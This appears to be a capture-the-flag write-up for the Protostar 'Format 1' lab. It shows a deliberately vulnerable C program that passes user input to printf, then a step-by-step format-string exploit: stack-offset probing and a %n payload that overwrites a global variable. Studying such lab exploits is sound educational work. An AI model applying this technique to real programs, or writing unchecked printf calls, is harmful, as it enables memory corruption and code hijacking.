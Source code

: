 # Protostar - Format 1

### About ###

>This level shows how format strings can be used to modify arbitrary memory locations.
>
>**Hints**
>
> - objdump -t is your friend, and your input string lies far up the stack :)
> - This level is at /opt/protostar/bin/format1




### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

### Solution 

Format strings can be used to change values at arbitrary locations in the memory of a process.
Here we want to change the variable target, the first step is to find its address, we can use `objdump -t` to do that.

```
user@protostar:/tmp$ objdump -t /opt/protostar/bin/format1 | grep target
08049638 g     O .bss  	00000004              target
```

To change a value with a format string we are going to use the conversion character `%n` which returns the number of character printed since the call of the format string based function.

The following c program is a bit more specific. It prints the characters `abcd` then stored the number of characters printed into the variable `addr`.

```c
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
       	int addr = 0;
       	printf("abcd%n\n", &addr);
       	printf("[+] Value of addr = %d\n", addr);
       	return 0;
}
```
```
user@protostar:/tmp$ gcc -o test test.c; ./test
abcd
[+] Value of addr = 4
```

Changing values at arbitrary locations is the same thing. We specifiy an address in the format string and then we write into it with `%n`.

We have control over the variable `argv[1]`, but before exploiting the format string we need to find where it is stored on the stack. To display arbitrary values from the stack, we can use `%num$x` where `num` is the offset from the top of the stack. So, if we want the third element from the top of the stack, we will use `%2$x`.

In order to find the location of `argv` we are going to iterate over the 200 first elements of the stack until we find out pattern `ABCDEFGH` (`0x4142434445464748` in ASCII).

```
user@protostar:/tmp$ for i in $(seq 1 200); do echo $i; format1 $(python -c "print 'ABCDEFGH.%$i\$x'"); echo; done;
1
ABCDEFGH.804960c
2
ABCDEFGH.bffff6a8
3
ABCDEFGH.8048469
[...]
130
ABCDEFGH.42410031  <-+--- Our pattern
131                  |
ABCDEFGH.46454443  <-+
132                  |
ABCDEFGH.252e4847  <-+
[...]
```

The value `0x46454443` at the offset 131, which is the ASCII code of `CDEF`, was written with the format string `ABCDEFGH.%131$x`. To flag this challenge, we only need to replace `CDEF` by the address of `target` and `%131$x` by `%131$n`.

We can now rewrite the value of `target` with the following format string:
```
AB\x38\x96\x04\x08GH.%131$n
``` 

```
user@protostar:/tmp$ format1 $(python -c "print 'AB\x38\x96\x04\x08GH.%131\$n'")
AB8GH.you have modified the target :)
```